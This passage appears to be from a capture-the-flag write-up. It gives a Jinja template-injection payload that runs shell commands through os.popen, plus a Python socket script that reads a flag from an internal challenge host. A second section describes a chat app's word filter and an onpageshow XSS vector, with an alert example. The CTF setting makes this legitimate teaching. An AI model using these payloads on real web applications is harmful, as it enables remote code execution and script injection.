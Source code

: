 We can prevent modifications of the output by jinja by using the "safe" filter ([source](https://stackoverflow.com/a/12341532/12864941)), it is particularly useful when reading python errors.
```py
{{request.application.__globals__.__builtins__.__import__("os").popen("python -c \"CMD\" 2>&1 | cat").read()|safe}}
```

We can then open a socket to ```toto8042:4242``` and read it ([source](https://wiki.python.org/moin/TcpCommunication)):
```py
import socket

TCP_IP = 'toto8042'
TCP_PORT = 4242
BUFFER_SIZE = 128

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT))
data = s.recv(BUFFER_SIZE)
s.close()

print(data.decode('utf-8'))
```

flag: ```BFS{doCKErcEpt1On8042}```

# whatsup

## What it is

It is a chat webapp, you can send messages to other users.

Some words are censored (replaced by ```*```), they will be replaced wherever they appear in the message.\
For example ```console``` will become ```***sole```.
Some of the words we found:
- con
- ass
- fuck
- shit
- bite
- merde
- cul
- hell

The max input size is 255 char (a bit less actually).

## Solution

We can put code in the ```onpageshow``` event of the body ([source](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onpageshow).

example:
```html
<body onpageshow="alert('Hey')">
```
